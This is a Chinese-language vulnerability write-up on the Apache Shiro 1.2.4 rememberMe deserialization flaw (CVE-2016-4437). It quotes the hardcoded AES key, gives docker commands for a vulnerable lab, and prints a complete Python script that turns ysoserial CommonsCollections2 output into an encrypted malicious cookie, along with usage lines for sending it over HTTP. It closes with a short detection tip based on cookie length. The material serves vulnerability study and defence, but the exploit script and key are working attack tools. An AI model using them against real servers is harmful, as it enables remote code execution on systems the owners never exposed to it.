


# Apache Shiro 1.2.4反序列化漏洞(CVE-2016-4437)

## 简介

Apache Shiro 是重要的 Java 权限及安全验证框架。

根据[官方issue](https://issues.apache.org/jira/browse/SHIRO-550)

* Retrieve the value of the rememberMe cookie

* CookieRememberMeManager.java

* Base64 decode

* Decrypt using AES

* 加密密钥硬编码

* Java serialization(ObjectInputStream)

CookieRememberMemanager.java 的父类AbstractRememberMeManager存在硬编码：


	/**
     * The following Base64 string was generated by auto-generating an AES Key:
     * <pre>
     * AesCipherService aes = new AesCipherService();
     * byte[] key = aes.generateNewKey().getEncoded();
     * String base64 = Base64.encodeToString(key);
     * </pre>
     * The value of 'base64' was copied-n-pasted here:
     */
    private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");

因为 AES 是对称加密，即加密密钥也同样是解密密钥。

攻击者可以使用有效的rememberMe cookie，然后构造rememberMe来执行Java反序列化攻击，最终导致远程代码执行。

## 复现


使用这个docker复现成功，使用vulhub镜像复现未成功。

```docker pull medicean/vulapps:s_shiro_1```

```docker run -d -p 8080:8080 medicean/vulapps:s_shiro_1```




apache shiro 这个洞, 登录时需要勾选 ```Remember me``` ， 否则Cookie显示的是 ```rememberMe=deteleMe```



登陆后看到 Cookie中的rememberMe记录登陆后的加密字符串。


**实际复现无需登陆。**

生成payload的脚本：

	import sys
	import base64
	import uuid
	from random import Random
	import subprocess
	from Crypto.Cipher import AES  # pip3 install pycryptodome
	
	def encode_rememberme(command):
	    popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-30099844c6-1.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
	    BS   = AES.block_size
	    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
	    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
	    mode =  AES.MODE_CBC
	    iv   =  uuid.uuid4().bytes
	    encryptor = AES.new(base64.b64decode(key), mode, iv)
	    file_body = pad(popen.stdout.read())
	    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
	    return base64_ciphertext
	
	if __name__ == '__main__':
	    payload = encode_rememberme(sys.argv[1])
		with open("payload.cookie", "w") as f:
			print("rememberMe={}".format(payload.decode()), file=f) 

用法： 

	python3 shiro_payload.py "touch /tmp/success"

	http get(或head) ip:8080 Cookie:`cat payload.cookie`

## 特征分析

正常登陆成功返回的cookie 中 rememberMe= 后的加密key长度 500多。 恶意key通常较长，有4000多，可以设置阈值长度，再根据告警的资产用脚本打 dns log平台验证。


## 影响版本

Apache Shiro <= 1.2.4

## 参考资料


[创宇404实验室分析Shiro RememberMe 1.2.4 反序列化导致的命令执行漏洞](https://paper.seebug.org/shiro-rememberme-1-2-4/)


[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)


[这里收集其他硬编码的秘钥，以及测试其他不同的可以使用的CommonCollections版本](https://cloud.tencent.com/developer/article/1540882)
